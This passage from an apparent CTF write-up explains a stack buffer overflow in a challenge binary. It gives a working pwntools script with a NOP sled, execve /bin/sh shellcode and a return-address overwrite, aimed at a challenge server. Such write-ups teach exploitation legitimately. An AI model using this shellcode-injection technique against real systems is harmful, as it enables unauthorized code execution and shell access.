 The stack pointer is moved to `+0x0078` (see stack above), then the next two values popped into `RBP` and `R12`.  So unless you want to lose the end of your payload, say clear of the 16 bytes just before the return address.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

context.log_level = 'INFO'
context.log_file = 'remote.log'
p = remote('chal.cybersecurityrumble.de', 1990)
stack = 0x00007fffffffe738

# http://shell-storm.org/shellcode/files/shellcode-905.php
shellcode  = b'\x6a\x42\x58\xfe\xc4\x48\x99\x52'
shellcode += b'\x48\xbf\x2f\x62\x69\x6e\x2f\x2f'
shellcode += b'\x73\x68\x57\x54\x5e\x49\x89\xd0'
shellcode += b'\x49\x89\xd2\x0f\x05'
shellcode += (8 - (len(shellcode) % 8)) *  b'\x90'

payload  = b''
payload += 6 * b'A'
payload += 2 * b'\0'
payload += (0x78 - 8 - 16 - len(shellcode)) * b'\x90'
payload += shellcode
payload += (0x78 - len(payload)) * b'\x90'
payload += p64(stack)

p.sendlineafter('return.\n',payload)
p.interactive()
```

`stack` is from the analysis above.

`shellcode` is just the first x86_64 Linux shell code I stumbled on from [http://shell-storm.org](http://shell-storm.org) padded to be a multiple of 8 bytes (stack aligned).

The `payload` starts with an even number of `A`s followed by NULLs to fool `hex_to_binary` and `char_to_repr` while keeping the total length to 8 (stack aligned).

Appended to the `payload` is a NOP sled that will put the end of our shellcode 16 bytes from the return address to avoid getting popped off just before return (see analysis).  The `0x78 - 8 - 16` is from the analysis above (`0x78` bytes from return address `- 8` for the `hex_to_binary` bypass, followed by `- 16` for the 16 bytes to be avoided before the return address).

Appended next is the actual `shellcode`, then 16 bytes of anything really, then the new return address (`stack`).

That's it.

